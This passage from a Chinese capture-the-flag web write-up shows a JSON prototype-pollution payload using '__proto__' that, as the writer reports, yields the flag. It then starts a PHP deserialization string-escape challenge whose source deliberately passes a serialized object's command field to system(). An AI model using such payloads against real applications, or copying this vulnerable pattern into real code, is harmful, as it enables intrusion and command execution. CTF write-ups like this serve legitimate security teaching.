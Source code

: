 ```
{  
	"contact": "test",  
	"reason": "test",  
	"__proto__": {    
		"min_public_time": "1001-01-01"  
	}
}
1234567
```

污染成功
 ![在这里插入图片描述](assets/70dad5d0f0ce495986472b63e624553d.png)再次访问，得到flag
 （如果不成功。清除下网站cookie再刷新）
 ![在这里插入图片描述](../../CTF_%25E7%25AC%2594%25E8%25AE%25B0%25E8%25AE%25B0%25E5%25BE%2597%25E8%25BD%25AC%25E7%25A7%25BB/web/%25E9%25A2%2598%25E7%259B%25AEwp+%25E6%2598%25A5%25E7%25A7%258B%25E4%25BA%2591%25E5%25A2%2583%25E6%25B8%2597%25E9%2580%258Fwp/assets/3bbb294f7d464468914b08977f2ac774.png)

## WEEK4(php反序列化字符串逃逸(增多))

### 逃

> 考点：字符串逃逸

源码

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key']))));
```